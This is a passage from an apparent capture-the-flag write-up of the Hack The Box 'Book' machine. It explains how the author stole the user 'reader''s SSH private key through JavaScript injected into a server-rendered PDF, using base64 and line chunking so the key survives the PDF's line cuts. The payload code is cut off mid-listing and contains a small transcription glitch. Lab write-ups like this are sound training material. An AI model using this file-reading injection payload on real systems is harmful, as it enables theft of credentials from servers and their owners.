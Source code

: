 <center><img src="/images/book_htb_writeup/11.png"></center>

I also saw that there was a user named 'reader' on the machine, so I tried to fetch his id_rsa file. The problem was that, while the file existed, some lines would be longer than the pdf document and all the extra characters would get cut. To solve this problem, I encoded the file in base64 and added a 'br' tag every 42 characters. This allowed me to exfiltrate the file without losing any characters on the way. The final payload looked like this (I prettified it so it would be easier to read):

{% highlight javascript %}
<script>
function chunk(str, n) {
    var ret = [];
    var i;
    var len;
    for (i = 0, len = str.length; i < le n; i += n) {
        ret.push(str.substr(i, n))
    }
    return ret
};
x = new XMLHttpRequest;
x.onload = function() {
    var
        inp = btoa(this.responseText);